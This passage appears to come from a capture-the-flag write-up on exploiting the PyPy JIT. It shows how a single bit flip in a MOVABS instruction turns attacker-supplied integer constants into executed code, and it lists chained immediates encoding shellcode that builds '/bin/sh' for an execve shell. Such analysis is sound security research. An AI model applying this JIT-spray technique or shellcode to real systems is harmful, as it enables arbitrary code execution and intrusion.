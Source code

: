 Taking a look at how MOVABS is encoded, we have:

```none
49 bb 55 44 33 22 11 00 00 00    movabs r11, 0x1122334455
```

Flipping bit 3 of the second byte turns the instruction into:

```none
49 b3 55    rex.WB mov r11b,  0x55
44 33 22    xor    r12d,  DWORD PTR [rdx]
11 00       adc    DWORD PTR [rax],  eax
...
```

Other variations are also possible, like:

```none
49 9b       rex.WB fwait
55          push   rbp
44 33 22    xor    r12d,  DWORD PTR [rdx]
11 00       adc    DWORD PTR [rax],  eax
...
```

*`fwait`... you really never stop learning new x86 instructions, huh?*

One single bit flip is therefore enough to start executing part of the original
MOVABS immediate we provide as code. We can encode an initial JMP ahead into the
next immediate, perform some instructions, JMP imm8 to the next, and repeat.
This is more than enough to pop a shell.

The only thing we must pay attention to is a small optimization performed by the
PyPy JIT compiler when dealing with consecutive integer values that are "close
enough" to each other (within 32-bit distance). Doing the same as above with
`ADD 0x1122334455` followed by `ADD 0x1122334466` will JIT compile into:

```none
movabs r11,0x1122334455
add    rdi,r11
jo     0x7a721ea94c47
mov    QWORD PTR [rbx+0x28],0xe
mov    QWORD PTR [rbp+0x158],rdi
lea    r11,[r11+0x11]              <<<<<<
add    rdi,r11
jo     0x7a721ea94c63
```

Not a problem if our immediates are "far enough" from each other in value, but
even then, all is fine with a bit of juggling around.

Now it's GG. We can read in more shellcode, run existing code (we can definitely
break ASLR now), or even just directly pop a shell via `execve`. The final
sequence of instructions I used to call
`execve("/bin/sh", {"/bin/sh", NULL}, NULL)` looks like this:

```none
ADD 0x01010101011ceb90  ->  jmp short $+0x1e
ADD 0x17eb900068732f68  ->  push 0x68732f               '/sh\x00'
                            jmp short $+0x19
ADD 0x17eb90102424c148  ->  shl qword ptr [rsp], 16
                            jmp short $+0x19
ADD 0x17eb6e6924048166  ->  add word ptr [rsp], 0x6e69  'in'
                            jmp short $+0x19
ADD 0x17eb90102424c148  ->  shl qword ptr [rsp], 16
                            jmp short $+0x19
ADD 0x616161000000ede9  ->  jmp $+0xf2
ADD 0x61eb622f24048166  ->  add word ptr [rsp], 0x622f  '/b'
                            jmp short $+0x63
ADD 0x61eb90006ae78948  ->  mov rdi, rsp                rdi = "/bin/sh"
                            push 0
```

[ctrl-space]: https://ctrl-space.gg/
[pypy]: https://www.pypy.org
[pypy-jit-movabs]: https://github.com/pypy/pypy/blob/76657ba47f6d48c7db77615d3a26bd5029f8b05a/rpython/jit/backend/x86/rx86.py#L886
[py-dis-dis]: https://docs.python.org/3/library/dis.html#dis.dis